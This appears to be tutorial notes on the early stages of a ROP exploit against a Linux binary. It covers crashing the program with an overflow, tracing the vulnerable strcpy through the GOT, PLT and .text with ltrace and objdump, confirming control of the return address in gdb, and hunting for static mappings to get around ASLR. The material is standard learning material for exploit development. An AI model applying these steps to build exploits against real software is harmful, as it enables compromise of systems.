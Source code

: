 # ROP Finding the vulnerable function

* At this point you have been able to generate a crash on a linux binary. We now need to find the vulnerable function before progressing

```
# creating the crash 
python3 -c 'print("A"*100) > temp.txt
./binary file.txt

Segmentation fault
```

* use `ltrace` to see if there is a function that is causing the crash&#x20;

```
ltrace ./binary file.txt 2>&1 | grep SIGSEGV -B1
7120-strcpy(0x6fff3b10, "AAAAAAAAAAAAAAAAAA"...) = 0x2ffff108b
--snip--
```

* we can see that `strcpy` is the issue here causing the crash
* use `objdump` to see where in the code segment `strcpy()` is called.&#x20;
* Look at the GOT of the program and grep for `strcpy()`
* Then use the `objdump` tool to specifically query the `.plt` segment to see where the address in the GOT is referenced.
* After attaining the address use `objdump` tool once more and change the segment to `.text` and grep on the address shown in the PLT

```
objdump -R ./binary | grep strcpy
0304b00a R_386_JUMP_SLOT    strcpy
objdump -j .plt -d binary | grep b00a
70482b7:  ff 25 0a b0 04 03 jmp  *0x0304b00a 
objdump -j .text -d binary | 82b7 -B2 -A2
# you will see the vuln buffer size
# the address of strcpy@plt
# and a ret which is a good spot for a break to see 
# if your payload was successfully copied into mem 
```

* to validate your finding see if your buffer analysis was correct (72)

```
python3 -c print("A"*72 + "BBBB") > temp.txt
gdb ./binary 
run temp.txt
Program recieved signal SIGSEGV, Segmentation fault
0x42424242 in ?? ()
```

### Find static addresses

* We need to find static memory locations as ASLR will be enabled on modern systems.
* There may be static regions that do not utilize ASLR
* There could be static mappings due to any third party programs that get mapped into our program
* use `ltrace` to find the static mappings&#x20;

```
ltrace ./binary file.txt 2>&1 | egrep -i 'mmap|open'
```

* look for any shared object that is mmap into the binary&#x20;
* should see an open() call followed by a mmap() with a memory address passed into mmap()
